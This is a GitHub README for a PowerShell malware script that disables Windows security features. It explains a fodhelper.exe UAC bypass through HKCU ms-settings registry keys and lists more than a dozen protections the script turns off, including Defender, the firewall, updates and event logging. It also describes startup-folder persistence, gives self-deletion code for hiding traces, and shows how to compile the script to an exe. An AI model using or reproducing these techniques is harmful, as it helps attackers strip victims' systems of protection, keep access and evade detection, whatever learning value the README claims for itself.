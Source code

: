 > [!CAUTION]
> ## MALWARE AHEAD! IF YOU DO NOT KNOW WHAT THAT IS, LEAVE.
<div align=center>

<img src="https://github.com/isPique/Fuck-Windows-Security/blob/main/disclaimer.png" width="700">

</div>

<br>

> [!WARNING]
> ***This script was NOT optimized to shorten and obfuscate the code but rather intended to have as much readability as possible for new coders to learn!***

# How does it work?

* Well, if we want to disable Windows's security features, we can use **Registry Editor** for that. However, we will need administrative privileges to access regedit. Like who's gonna run a malware as administrator?

  ## Privilege Escalation
  
  - In Windows, when a user is requesting to open **“Manage Optional Features”** in settings, a process is created under the name **“fodhelper.exe”**. This process is running with the highest privileges without any permissions being asked directly when executed because it's a trusted binary and signed by Microsoft.
  
  - The following checks are performed in the registry upon start of **fodhelper.exe**:
  
  > ```plaintext
  > HKCU:\Software\Classes\ms-settings\shell\open\command
  > HKCU:\Software\Classes\ms-settings\shell\open\command\DelegateExecute
  > HKCU:\Software\Classes\ms-settings\shell\open\command\(default)
  > ```
  
  - Since these registry entries doesn’t exist, we can create this structure in the registry to manipulate fodhelper to execute our script with higher privileges bypassing the **User Account Control (UAC)**.
  
  ## Features that the script will disable:
    ```bash
    > All The Windows Defender Features (including SmartScreen)
    > Windows Firewall
    > Windows Update
    > System Restore
    > Task Manager
    > Command Prompt (Cmd)
    > Remote Desktop
    > User Account Control (UAC)
    > Windows Security Center
    > Windows Error Reporting
    > Remote Assistance
    > Windows Update Medic Service
    > Background Intelligent Transfer Service (BITS)
    > Windows Script Host
    > Event Logging
    > Windows Security Notifications
    > Windows Search
    > Automatic Maintenance
    > Virtualization Based Security
    ```
  
  ## Self Replication and Self Destruction
  
  * After disabling the Windows Security features, the script will copy itself to the startup folder with a random file name for persistence and will delete all traces of its execution.
  
  * However, when the script is compiled and executed as an ".exe" file, it becomes a process, and we can no longer modify or delete the file itself due to the **[File Locking Mechanism](https://en.wikipedia.org/wiki/File_locking)**.
  
  * Since we couldn't delete the script itself after it has done its job, we have 2 alternatives to delete it:
  
  ```powershell
  $ScriptPath = $MyInvocation.MyCommand.Path
  $ExePath = (Get-Process -Id $PID).Path
  $FullPath = if ($ScriptPath) { $ScriptPath } else { $ExePath }
  
  # First alternative: Start another process to delete it
  Start-Process powershell.exe -ArgumentList "-NoProfile -Command `"Remove-Item -Path '$FullPath' -Force -ErrorAction SilentlyContinue`"" -WindowStyle Hidden
  
  # Second alternative: Create a temporary batch script to delete it
  $tempScript = [System.IO.Path]::Combine([System.IO.Path]::GetTempPath(), [System.IO.Path]::GetRandomFileName() + ".cmd")
  $cmdContent = "chcp 1252" + [Environment]::NewLine + "ping 127.0.0.1 -n 2 > nul" + [Environment]::NewLine + "del /q /f `"$FullPath`"" + [Environment]::NewLine + "del /q /f %~f0"
  Set-Content -Path $tempScript -Value $cmdContent
  Start-Process cmd.exe -ArgumentList "/c $tempScript" -WindowStyle Hidden
  ```
  > ***The first alternative has been used in the script.***

# How to convert the script into an executable?

**1. Open PowerShell as administrator**

**2. Install [PS2EXE](https://www.advancedinstaller.com/convert-powershell-to-exe)**

  ```powershell
  Install-Module ps2exe
  ```

**3. Open the GUI**

  ```powershell
  win-ps2exe
  ```

> [!IMPORTANT]
> #### Once the script has been converted to n .exe file, it can be flagged as:
> * [**Trojan:Win32/AgentTesla!ml**](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?name=Trojan%3AWin32%2FAgentTesla!ml&threatid=2147760503)
> * [**Trojan:Win32/Bearfoos.A!ml**](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?name=Trojan%3AWin32%2FBearfoos.A!ml&threatid=2147731250)
> * [**Trojan:Win32/Wacatac.B!ml**](https://www.microsoft.com/en-us/wdsi/threats/malware-encyclopedia-description?name=Trojan%3AWin32%2FWacatac.H!ml&threatid=2147814523)

<hr>

> [!TIP]
> ### If you executed the script, you can also run the `Enable.reg` file to repair the damage it caused.
